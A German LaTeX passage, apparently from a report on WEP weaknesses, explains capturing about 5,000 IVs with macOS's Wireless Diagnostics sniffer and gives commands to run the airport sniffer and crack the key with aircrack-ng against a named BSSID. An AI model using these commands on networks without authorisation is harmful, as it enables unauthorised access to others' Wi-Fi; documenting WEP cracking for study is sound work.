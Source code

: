Mit dem \textit{Sniffer} können benötigte Daten auf einem konkreten Netz aufgezeichnet werden. Es werden ca. 5'000 \gls{ivLabel}'s benötigt um den Schlüssel zu berechnen. (Diese Aufzeichnung (capture) dauert unterschiedlich lange, je nach Nutzung des Netzes. Wird das Netz viel gebraucht, geht es rascher.)

\begin{figure}[H]
	\centering
	\includegraphics[width=0.8\textwidth]{images/wep/sniffer.png}
	\caption{Sniffer -- OS X Wireless Diagnostics}
\end{figure}


Der Sniffer kann auch direkt über die Kommandozeile ausgeführt werden:
\begin{lstlisting}[style=lstStyleFramed]
sudo ln -s /System/Library/PrivateFrameworks/Apple80211.framework/Versions/Current/Resources/airport /usr/sbin/airport
sudo airport en0 sniff <CHANNEL>
\end{lstlisting}

Anschliessend können die Daten, vom \textit{Sniffer} mit dem \textit{aircrack-ng} ausgewertet werden.
\begin{lstlisting}[style=lstStyleFramed]
aircrack-ng -b 00:0f:cc:b0:1a:c8 /private/tmp/airportSniff*.cap
\end{lstlisting}


